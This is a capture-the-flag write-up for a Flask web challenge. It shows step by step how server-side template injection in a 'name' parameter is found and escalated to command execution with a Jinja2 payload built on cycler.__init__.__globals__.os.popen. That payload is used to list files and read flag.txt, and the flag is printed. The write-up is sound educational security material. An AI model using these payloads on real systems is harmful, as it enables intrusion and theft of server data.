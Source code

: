 ## Description

Can you be my friend ?

## Solution

let's visit the web page :

```plaintext
└─$ curl 'https://pathfinder.hackini24.shellmates.club/' -k -s | html2text

****** Hi FRIEND!, my name is pathfinder. Let's become AMIGOS!!!
but first give me your ?name ******
```

seeing `?name` hints that we should send a parameter `name` containing the value of the name, let's try that :

```plaintext
└─$ curl 'https://pathfinder.hackini24.shellmates.club/?name=test' -k -s | html2text

****** - Hello test! ******
```

as we guessed, we must send the name in the parameter, then we get it displayed on the page.

if we check the header we get in the response, we will notice that this web app runs on flask :

```plaintext
└─$ curl 'https://pathfinder.hackini24.shellmates.club/?name=test' -k -s -I

HTTP/1.1 200 OK
server: Werkzeug/2.3.7 Python/3.8.17
date: Sun, 17 Dec 2023 13:39:20 GMT
content-type: text/html; charset=utf-8
content-length: 22
```

since this is running flask, and we have a controllable value rendering on the page, we can try `SSTI`, let's try a basic payload like `{{7*7}}` and see if we get `49` as the name :

```plaintext
└─$ curl 'https://pathfinder.hackini24.shellmates.club/?name=\{\{7*7\}\}' -k -s| html2text

****** - Hello 49! ******
```

that worked, this confirms that we have `SSTI`, let's get command execution with this payload `{{cycler.__init__.__globals__.os.popen('ls').read()}}` :

```plaintext
└─$ curl 'https://pathfinder.hackini24.shellmates.club/?name=\{\{cycler.__init__.__globals__.os.popen("ls").read()\}\}' -k -s| html2text

****** - Hello __pycache__ app.py flag.txt requirements.txt ! ******
```

we see that the command `ls` executed successfully, we see the flag there, let's read it with this payload `{{cycler.__init__.__globals__.os.popen('cat flag.txt').read()}}` :

```plaintext
└─$ curl 'https://pathfinder.hackini24.shellmates.club/?name=\{\{cycler.__init__.__globals__.os.popen("cat%20flag.txt").read()\}\}' -k -s| html2text

****** - Hello shellmates{ohHh_God_i_foRGoOOoooOot_ABBBbBBBboUT_TemPPPpllaaATES} ! ******
```

- flag : `shellmates{ohHh_God_i_foRGoOOoooOot_ABBBbBBBboUT_TemPPPpllaaATES}`
